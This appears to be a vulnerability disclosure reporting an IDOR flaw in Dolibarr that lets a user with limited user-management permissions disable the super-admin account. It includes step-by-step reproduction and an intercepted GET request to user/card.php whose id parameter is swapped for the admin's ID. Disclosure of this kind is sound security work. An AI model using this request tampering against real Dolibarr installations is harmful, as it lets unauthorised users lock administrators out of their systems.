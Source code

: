 # Description

Dolibarr is vulnerable to an IDOR vulnerability which can lead to Privilege Escalation. 

# Proof of Concept

1.Download and Install Dolibarr form [Dolibarr](https://github.com/Dolibarr/dolibarr/) 

2.Create two New users with the following permissions(let the new user be SAM and John)      
   -Delete or disable other users    
   -Read other users and groups  
  
3.Now Login as the new user(SAM).Sam just have the permission to Disable other users other than admins.The Disable button is not avilable for admin profiles.

4.Now visit Johns profile by Clicking List of user,You will find a disable button to disable John's profile. Click on it and intercept the request . A request similar to the 
snippet will be made

```
GET /user/card.php?action=disable&id=4 HTTP/1.1
Host: localhost/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
```
5:Replace the ``&id=`` parameter with the ID of Admin.

The Super-admin gets disabled.
